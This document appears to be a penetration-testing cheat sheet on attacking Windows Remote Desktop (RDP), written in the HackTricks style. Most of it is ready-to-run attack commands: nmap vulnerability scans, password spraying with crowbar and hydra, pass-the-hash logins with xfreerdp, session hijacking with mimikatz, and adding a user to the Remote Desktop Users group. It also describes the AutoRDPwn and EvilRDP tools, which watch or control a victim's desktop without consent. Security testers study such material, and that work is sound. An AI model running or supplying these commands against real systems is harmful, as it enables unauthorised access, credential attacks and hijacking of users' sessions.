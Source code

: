```
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```

# Password spray
```
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

# Connect with Known credentials
```
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash

```

# Check
```
rdp_check <domain>/<name>:<password>@<IP>
```


# Steal session -mimikatz
```
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```

# Adding User to RDP group

```
net localgroup "Remote Desktop Users" UserLoginName /add
```

##  [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)
    

**AutoRDPwn** is a post-exploitation framework created in Powershell, designed primarily to automate the **Shadow** attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to **view his victim's desktop without his consent**, and even control it on demand, using tools native to the operating system itself.

- 
- [**EvilRDP**](https://github.com/skelsec/evilrdp)
    
    - Control mouse and keyboard in an automated way from command line
        
    - Control clipboard in an automated way from command line
        
    - Spawn a SOCKS proxy from the client that channels network communication to the target via RDP
        
    - Execute arbitrary SHELL and PowerShell commands on the target without uploading files
        
    - Upload and download files to/from the target even when file transfers are disabled on the target
        
    

# HackTricks Automatic Commands

```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for RDP
  Note: |
    Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device. 

    https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
  Name: Nmap
  Description: Nmap with RDP Scripts
  Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```